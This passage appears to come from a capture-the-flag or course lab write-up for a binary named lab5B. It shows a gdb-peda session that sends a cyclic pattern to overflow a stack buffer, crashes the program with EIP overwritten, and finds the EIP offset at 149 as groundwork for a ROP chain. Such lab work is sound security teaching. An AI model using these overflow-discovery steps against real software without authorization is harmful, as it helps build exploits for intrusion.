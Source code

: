 ```nasm
$ gdb -q ./lab5B
Reading symbols from ./lab5B...(no debugging symbols found)...done.
gdb-peda$ pattern_create 180
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAnAASAAoAATAApAAUAAqAAVAArAAWAAsAA'
gdb-peda$ r < <(python -c "print('AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAnAASAAoAATAApAAUAAqAAVAArAAWAAsAA')")
Starting program: /levels/lab05/lab5B < <(python -c "print('AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAnAASAAoAATAApAAUAAqAAVAArAAWAAsAA')")
Insert ROP chain here:

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
EAX: 0x0
EBX: 0x41415141 ('AQAA')
ECX: 0xfbad2088
EDX: 0x80ec4e0 --> 0x0
ESI: 0x0
EDI: 0x5241416d ('mAAR')
EBP: 0x416e4141 ('AAnA')
ESP: 0xbffff6d0 ("oAATAApAAUAAqAAVAArAAWAAsAA")
EIP: 0x41415341 ('ASAA')
EFLAGS: 0x10282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x41415341
[------------------------------------stack-------------------------------------]
0000| 0xbffff6d0 ("oAATAApAAUAAqAAVAArAAWAAsAA")
0004| 0xbffff6d4 ("AApAAUAAqAAVAArAAWAAsAA")
0008| 0xbffff6d8 ("AUAAqAAVAArAAWAAsAA")
0012| 0xbffff6dc ("qAAVAArAAWAAsAA")
0016| 0xbffff6e0 ("AArAAWAAsAA")
0020| 0xbffff6e4 ("AWAAsAA")
0024| 0xbffff6e8 --> 0x414173 ('sAA')
0028| 0xbffff6ec --> 0x80eb00c --> 0x8067b30 (<__stpcpy_sse2>:  mov    edx,DWORD PTR [esp+0x4])
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x41415341 in ?? ()
```

Nice, now let's check wich part of the pattern is in EIP.

```nasm
gdb-peda$ pattern_search
Registers contain pattern buffer:
EIP+0 found at offset: 149
EBX+0 found at offset: 137
EDI+0 found at offset: 141
EBP+0 found at offset: 13
Registers point to pattern buffer:
[ESP] --> offset 153 - size ~27
Pattern buffer found at:
0xb7ffb00a : offset   19 - size  161 (mapped)
0xbffff64a : offset   19 - size  161 ($sp + -0x86 [-34 dwords])
Reference to pattern buffer not found in memory
```
